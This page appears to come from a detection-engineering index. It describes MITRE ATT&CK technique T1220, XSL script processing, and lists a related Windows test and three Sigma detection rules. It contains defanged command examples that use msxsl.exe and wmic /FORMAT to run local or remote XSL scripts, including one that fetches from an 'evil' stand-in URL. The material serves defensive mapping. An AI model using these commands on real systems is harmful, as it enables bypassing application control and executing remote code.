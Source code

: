 
[back](../index.md)

Find sigma rule :heavy_check_mark: 

# Attack: XSL Script Processing 

Adversaries may bypass application control and obscure execution of code by embedding scripts inside XSL files. Extensible Stylesheet Language (XSL) files are commonly used to describe the processing and rendering of data within XML files. To support complex operations, the XSL standard includes support for embedded scripting in various languages. (Citation: Microsoft XSLT Script Mar 2017)

Adversaries may abuse this functionality to execute arbitrary files while potentially bypassing application control. Similar to [Trusted Developer Utilities Proxy Execution](https://attack.mitre.org/techniques/T1127), the Microsoft common line transformation utility binary (msxsl.exe) (Citation: Microsoft msxsl.exe) can be installed and used to execute malicious JavaScript embedded within local or remote (URL referenced) XSL files. (Citation: Penetration Testing Lab MSXSL July 2017) Since msxsl.exe is not installed by default, an adversary will likely need to package it with dropped files. (Citation: Reaqta MSXSL Spearphishing MAR 2018) Msxsl.exe takes two main arguments, an XML source file and an XSL stylesheet. Since the XSL file is valid XML, the adversary may call the same XSL file twice. When using msxsl.exe adversaries may also give the XML/XSL files an arbitrary file extension.(Citation: XSL Bypass Mar 2019)

Command-line examples:(Citation: Penetration Testing Lab MSXSL July 2017)(Citation: XSL Bypass Mar 2019)

* <code>msxsl.exe customers[.]xml script[.]xsl</code>
* <code>msxsl.exe script[.]xsl script[.]xsl</code>
* <code>msxsl.exe script[.]jpeg script[.]jpeg</code>

Another variation of this technique, dubbed “Squiblytwo”, involves using [Windows Management Instrumentation](https://attack.mitre.org/techniques/T1047) to invoke JScript or VBScript within an XSL file.(Citation: LOLBAS Wmic) This technique can also execute local/remote scripts and, similar to its [Regsvr32](https://attack.mitre.org/techniques/T1218/010)/ "Squiblydoo" counterpart, leverages a trusted, built-in Windows tool. Adversaries may abuse any alias in [Windows Management Instrumentation](https://attack.mitre.org/techniques/T1047) provided they utilize the /FORMAT switch.(Citation: XSL Bypass Mar 2019)

Command-line examples:(Citation: XSL Bypass Mar 2019)(Citation: LOLBAS Wmic)

* Local File: <code>wmic process list /FORMAT:evil[.]xsl</code>
* Remote File: <code>wmic os get /FORMAT:”https[:]//example[.]com/evil[.]xsl”</code>

# MITRE
## Tactic
  - defense-evasion


## technique
  - T1220


# Test : WMIC bypass using local XSL file
## OS
  - windows


## Description:
Executes the code specified within a XSL script using a local payload.


## Executor
command_prompt

# Sigma Rule
 - proc_creation_win_wmic_xsl_script_processing.yml (id: 05c36dd6-79d6-4a9a-97da-3db20298ab2d)

 - proc_creation_win_wmic_recon_process.yml (id: 221b251a-357a-49a9-920a-271802777cc0)

 - image_load_wmic_remote_xsl_scripting_dlls.yml (id: 06ce37c2-61ab-4f05-9ff5-b1a96d18ae32)



[back](../index.md)
